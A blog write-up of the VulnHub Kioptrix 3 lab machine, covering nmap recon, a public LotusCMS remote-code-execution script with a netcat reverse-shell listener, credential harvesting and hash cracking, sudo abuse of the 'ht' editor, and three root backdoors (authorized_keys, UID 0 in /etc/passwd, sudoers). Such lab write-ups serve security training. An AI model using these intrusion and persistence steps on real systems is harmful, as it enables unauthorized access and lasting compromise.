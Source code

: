 ```yaml
---
title: "Kioptrix 3"
date: 2024-05-10
draft: false
summary: "Writeup for Kioptrix level 3 of the Kioptrix series challenge on VulnHub."
tags: ["kioptrix", "linux", "CMS", "sudo"]
categories: ["writeups"]
series: []
showToc: true
cover:
  image: "https://cdn.ziomsec.com/kioptrix3/cover.webp"
  caption: "Kioptrix 3 VulnHub Challenge"
  alt: "Kioptrix 3 cover"
platform: "VulnHub"
---
```


Kioptrix-3 is the third challenge in the Kioptrix series and similar to others, there’s more than one way to “pwn” this.
<!--more-->
To download Kioptrix 3, click 
- https://www.vulnhub.com/entry/kioptrix-level-12-3,24/

## Recon

After setting up the machine locally, I scanned the network to identify the target IP.

```bash
nmap -sn 192.168.1.0/24          
```

I then performed an **nmap** aggressive scan to find open ports, services and information about those services.

```shell
nmap -A -p- TARGET --min-rate 10000 -oN nmap.out
```

| **Port** | **Service** |
| -------- | ----------- |
| 22       | ssh         |
| 80       | http        |
****
![](https://cdn.ziomsec.com/kioptrix3/1.webp)

## Initial Foothold

### Gaining Shell

I accessed the web application using my browser.

![](https://cdn.ziomsec.com/kioptrix3/2.webp)

A redirection link on this page took me to another page that appeared incomplete.

![](https://cdn.ziomsec.com/kioptrix3/3.webp)

I clicked opened *developer's options* and navigated to the _Network_ tab. Upon refreshing the page, I found a list of requests being made to a particular domain.

![](https://cdn.ziomsec.com/kioptrix3/4.webp)

To resolve the domain, I mapped it to the target IP in the */etc/hosts* file.

![](https://cdn.ziomsec.com/kioptrix3/5.webp)

At first, I did not find anything useful on the web page. Upon returning back to the home page, I noticed a login panel that revealed the name of the CMS being used.

So - I looked for exploits related to the CMS (**Lotus CMS**) on Google and found several results. I tried the below exploit that I found on Github and got a reverse shell.
- https://github.com/Hood3dRob1n/LotusCMS-Exploit

```shell
git clone https://github.com/Hood3dRob1n/LotusCMS-Exploit; cd LotusCMS-Exploit
```

![](https://cdn.ziomsec.com/kioptrix3/6.webp)

I started a listener using **netcat** and executed the bash script.

```bash
rlwrap nc -lnvp 4444
# On another terminal
./lotsuRCE.sh TARGET
```

![](https://cdn.ziomsec.com/kioptrix3/7.webp)

![](https://cdn.ziomsec.com/kioptrix3/8.webp)

To streamline my activities, I exported my terminal and spawned a *pty* shell for ease of use.

```bash
export TERM=xterm
python -c 'import pty; pty.spawn("/bin/bash")'
```

### Getting User Access

I navigated to the *home* directory and discovered two additional users.

```shell
cd /home
ls
```

![](https://cdn.ziomsec.com/kioptrix3/9.webp)

The *loneferret* user had a file containing an intriguing message.

```shell
cd loneferret; cat CompanyPolicy.README
```

![](https://cdn.ziomsec.com/kioptrix3/10.webp)

Executing this command would require a password, so I examined the running services and identified MySQL.

```shell
ps -aux | grep mysql
```

![](https://cdn.ziomsec.com/kioptrix3/11.webp)

It's in **safe** mode, so I would need another set of credentials to access it. Therefore, I searched for anything interesting in my own directory.

After searching around, I found a pair of credentials in `home/www/kioptrix3/gconfig.php`

![](https://cdn.ziomsec.com/kioptrix3/12.webp)

So I logged into mysql using these credentials.

```shell
mysql -u root -p
# ENTER PASSWORD
```

![](https://cdn.ziomsec.com/kioptrix3/13.webp)

I found the md5 hashed password of both *dreg* and *loneferret* in the `gallery` database.

![](https://cdn.ziomsec.com/kioptrix3/14.webp)

To crack these hashes, I visited **crackstation**.
- https://crackstation.net/

![](https://cdn.ziomsec.com/kioptrix3/15.webp)

| username   | password |
| ---------- | -------- |
| dreg       | Mast3r   |
| loneferret | starwars |
I then logged in as *loneferret* using **ssh**.

![](https://cdn.ziomsec.com/kioptrix3/16.webp)

## Privilege Escalation

I viewed the command history of *loneferret* and found **ht** being run as **sudo**.

![](https://cdn.ziomsec.com/kioptrix3/17.webp)

Hence I execute the command `sudo ht`

![](https://cdn.ziomsec.com/kioptrix3/18.webp)

I pressed **F3** and was presented with an option to open any file. Since I was running the software using sudo privileges, I captured the flag from `/root/Congrats.txt`.

![](https://cdn.ziomsec.com/kioptrix3/19.webp)

## Backdoor
### Using SSH keys

I generated SSH keys on my terminal.

```bash
ssh-keygen -t rsa -b 4096 -C "keyfork3"
```

I then copied the public key and stored it in **id_rsa.pub**.

![](https://cdn.ziomsec.com/kioptrix3/20.webp)

Finally, I pasted this into the *authorized_keys* file in the *root* directory.

> *authorized_keys* is a special file present in the **.ssh** folder that contains public keys that are allowed to log in as that particular user. All it requires is for us to log in using our private key.

```
ALT+F -> new -> text -> paste the ssh key -> save as -> /root/.ssh/authorized_keys
```

![](https://cdn.ziomsec.com/kioptrix3/21.webp)

### Using The  `/etc/passwd` File

I updated the **id** value in the `/etc/passwd` file of *loneferret* to **0**.

![](https://cdn.ziomsec.com/kioptrix3/22.webp)

Upon reconnecting as *loneferret*, I got root access.

### Using Sudoers File

I modified the permissions of *loneferret* in the `/etc/sudoers` file to allow all commands as sudo.

![](https://cdn.ziomsec.com/kioptrix3/23.webp)

I could then run any command as root.

![](https://cdn.ziomsec.com/kioptrix3/24.webp)
## Closure

Here's a comprehensive summary of my successful penetration of the **Kioptrix L3** system:
- I exploited the CMS to gain initial access.
- Discovered user credentials within the `gconfig.php` file.
- Utilized **ht** software with **sudo** privileges to locate the flag in the root directory.
- Implemented three distinct methods to establish a backdoor.

That concludes my walkthrough. Until next time! :)

---
